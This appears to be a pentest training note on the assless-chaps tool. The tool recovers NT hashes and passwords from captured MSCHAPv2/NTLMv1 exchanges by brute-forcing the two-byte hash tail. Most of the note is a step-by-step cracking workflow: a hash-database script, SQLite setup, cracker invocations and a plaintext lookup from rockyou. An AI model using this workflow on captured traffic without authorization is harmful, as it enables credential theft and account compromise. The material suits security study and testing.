

# Assless CHAPs
[`assless-chaps`](https://github.com/sensepost/assless-chaps) is a tool for *recovering the NT hash* used in an `MSCHAPv2`/`NTLMv1` exchange (when you have both the challenge and the response).
## Technique
`MSCHAPv2` splits the NT hash into three parts and uses each as a DES key on the same 8 byte challenge. Two of the keys are 7 bytes each and the third is 2 bytes plus some NULL padding. If you brute force *the final 2 bytes* (with a total of 65,535 possibilities) you get the *tail of the NT hash*. 

Once you have the tail you can *look it up in your own NT database/ hash dictionary*.
### Creating the database
You can use the tool `nthash-from-clear.py` to create a CSV and then a SQLite database of hashes. The following is how to make one using the `rockyou.txt` wordlist:
#### 1. Creating the CSV
Use the following script (also available [here](https://github.com/sensepost/assless-chaps/blob/main/nthash-from-clear.py)):
```python
#!/usr/bin/env python3


import hashlib
import binascii
from sys import argv

with open(argv[1],'r') as clears:
  for pwd in clears.read().split('\n'):
    byts = binascii.hexlify(hashlib.new("md4",pwd.encode("utf-16le")).digest())
    two = byts[-4:].decode("utf-8")
    frst = byts[0:14].decode("utf-8")
    scnd = byts[14:28].decode("utf-8")
    print(f'{two},{frst},{scnd}') 
```
Then run the following command:
```bash
python3 nthash-from-clear.py /root/rockyou-top100000.txt > /root/rockyou-top100000.csv
```
**NOTE**: if you get the error "utf-8' codec can't decode byte 0xf1 in position 5079963: invalid continuation byte" then you can fix it with the following:
```bash
iconv -f latin1 -t utf8 /root/rockyou-top100000.txt -o clears-utf8.txt
mv clears-utf8.txt /root/rockyou-top100000.txt
```
#### 2. Generate the SQLite database
Make sure SQLite is installed:
```bash
sudo apt update && sudo apt install sqlite3 -y
```
Then create the database using [`mksqlitedb.py`](https://github.com/sensepost/assless-chaps/blob/main/mksqlitedb.py)
```bash
python3 mksqlitedb.py /root/rockyou-top100000.db /root/rockyou-top100000.csv
```
**NOTE**: converting a CSV file to SQLite typically increases the on-disk size by about 61%. For example, the rockyou dataset grows from 462 MiB as a CSV to 746 MiB as a SQLite database, which then compresses down to 339 MiB when archived with BZ2.
### Retrieving the hash
Once you have your database of hashes created, you can use `assless-chaps.py` with the challenge and the response to try to crack the 2 byte tail:
```bash
python3 assless-chaps.py <challenge> <response> <hashes.db>
```

### Finding the Password from the Hash
Now that you have the full hash, you can retrieve the plaintext password from the CSV file:
```bash
# Get the line where the hash is
grep -n 17ad06bdd830b7 /root/rockyou-top100000.csv
# Retrieve that line from the txt in plaintext (in this case, line 4)
sed -n '4p' /root/rockyou-top100000.txt
```
### Two-byte Lookup
Optionally, you can pass the `twobytes` file as a fourth arg to `assless-chaps` to speed up brute-forcing the two bytes:
```bash
python3 assless-chaps.py <challenge> <response> <db> twobytes
```
### `ntlm-ssp.py`
If the target network is using NTLMv1 with SSP you can use [`ntlm-ssp.py`](https://github.com/sensepost/assless-chaps/blob/e8f3752fd6681a45cf010b506bef769766ab39d3/ntlm-ssp.py#L4) to compute the server's challenge:
```bash
python3 ntlm-ssp.py <lm_response> <challenge>
```
Then you can crack that:
```bash
./assless-chaps <server_challenge> <nt_response> <hashes.db>
```

> [!Resources]
> - [`assless-chaps`](https://github.com/sensepost/assless-chaps)
> - [`nthash-from-clear.py`](https://github.com/sensepost/assless-chaps/blob/main/nthash-from-clear.py)
> - [`mksqlitedb.py`](https://github.com/sensepost/assless-chaps/blob/main/mksqlitedb.py)
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442649-wi-fi-attacks-mgt)